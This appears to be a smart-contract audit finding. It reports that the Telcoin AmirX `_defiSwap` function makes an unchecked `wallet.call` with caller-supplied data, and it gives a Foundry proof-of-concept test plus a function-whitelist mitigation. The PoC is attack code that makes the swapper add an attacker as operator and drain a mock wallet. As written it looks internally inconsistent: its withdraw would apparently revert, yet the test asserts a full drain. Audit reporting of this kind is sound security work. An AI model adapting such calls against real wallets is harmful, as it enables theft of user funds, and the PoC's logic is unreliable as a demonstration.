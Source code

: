 Magic Laurel Gorilla

High

# Arbitrary Code Execution Through Unchecked Wallet Interaction in `_defiSwap`

### Summary

The `_defiSwap` function allows arbitrary code execution through `wallet.call` with user-supplied data, enabling `SWAPPER_ROLE` to execute any function on behalf of user wallets.

- SWAPPER_ROLE should ONLY have swap-related privileges
- Current implementation gives god-mode access to user wallets

### IMPORTANT CONTEXTUAL ARGUMENT:
There's a crucial difference between **"trusted to perform protocol operations" vs "trusted with arbitrary code execution on user wallets"**

### Root Cause

In AmirX.sol, _defiSwap executes arbitrary data on user's wallet without validation:
https://github.com/sherlock-audit/2024-11-telcoin/blob/main/telcoin-audit/contracts/swap/AmirX.sol#L166-L172

**THIS LINE:**
```solidity
    (bool walletResult, ) = wallet.call{value: 0}(defi.walletData);  // Arbitrary call!
```

```typescript
// Normal SWAPPER_ROLE operations (Expected Trust):
- Can initiate swaps
- Can manage protocol fees
- Can interact with defined protocol functions

// This vulnerability (Excessive Trust):
(bool walletResult, ) = wallet.call{value: 0}(defi.walletData);
// Can execute ANY function on user's wallet:
- Change wallet ownership
- Approve infinite tokens
- Execute arbitrary transactions
- Interact with completely unrelated protocols
```

**Real World Scenario:**
```solidity
// User gives approval for token swaps
USDC.approve(address(amirX), 1000e6);

// But SWAPPER_ROLE can now:
- Transfer user's NFTs
- Change settings in user's DeFi positions
- Withdraw from user's lending positions
- Change ownership of user's contracts
```



### Internal pre-conditions

1. Should have the Trusted SWAPPER role .

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

1. SWAPPER_ROLE can execute arbitrary functions on user wallets
2. Can drain user funds or change wallet permissions
3. Complete compromise of user wallet security
4. Beyond expected approval permissions

### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../src/swap/AmirX.sol";

contract UserWallet {
    mapping(address => bool) public operators;
    mapping(address => uint256) public deposits;
    
    // User's various DeFi positions
    function setOperator(address op, bool status) external {
        operators[op] = status;
    }
    
    function deposit() external payable {
        deposits[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) external {
        require(deposits[msg.sender] >= amount, "Insufficient balance");
        deposits[msg.sender] -= amount;
        payable(msg.sender).transfer(amount);
    }
}

contract ExcessiveTrustTest is Test {
    AmirX public amirX;
    UserWallet public wallet;
    address swapper = address(0x2);
    address attacker = address(0x3);
    
    function setUp() public {
        amirX = new AmirX();
        amirX.initialize();
        wallet = new UserWallet();
        
        // Setup roles and initial state
        vm.prank(address(this));
        amirX.grantRole(amirX.SWAPPER_ROLE(), swapper);
        
        // User deposits ETH
        vm.deal(address(wallet), 10 ether);
        vm.prank(address(this));
        wallet.deposit{value: 10 ether}();
    }
    
    function test_multipleAttackVectors() public {
        // 1. Add malicious operator
        bytes memory addOperatorData = abi.encodeWithSelector(
            UserWallet.setOperator.selector,
            attacker,
            true
        );
        
        // 2. Withdraw user's funds
        bytes memory withdrawData = abi.encodeWithSelector(
            UserWallet.withdraw.selector,
            10 ether
        );
        
        // Execute multiple malicious actions
        vm.startPrank(swapper);
        
        // Add operator
        amirX.defiSwap(address(wallet), AmirX.DefiSwap({
            defiSafe: address(0),
            aggregator: address(0),
            plugin: ISimplePlugin(address(0)),
            feeToken: ERC20(address(0)),
            referrer: address(0),
            referralFee: 0,
            walletData: addOperatorData,
            swapData: ""
        }));
        
        // Withdraw funds
        amirX.defiSwap(address(wallet), AmirX.DefiSwap({
            defiSafe: address(0),
            aggregator: address(0),
            plugin: ISimplePlugin(address(0)),
            feeToken: ERC20(address(0)),
            referrer: address(0),
            referralFee: 0,
            walletData: withdrawData,
            swapData: ""
        }));
        
        vm.stopPrank();
        
        // Verify excessive access
        assertTrue(wallet.operators(attacker), "Attacker should be operator");
        assertEq(address(wallet).balance, 0, "Wallet should be drained");
    }
}
```

### Mitigation

**Mitigation Must-Haves:**
```solidity
// Either explicit function implementations
function approveToken(address token, uint256 amount) external {
    // Specific, controlled functionality
}

// Or whitelisted function signatures
mapping(bytes4 => bool) public allowedFunctions;
function _defiSwap(address wallet, DefiSwap memory defi) internal {
    require(allowedFunctions[bytes4(defi.walletData[:4])], "Unauthorized function");
    // Rest of the code
}
```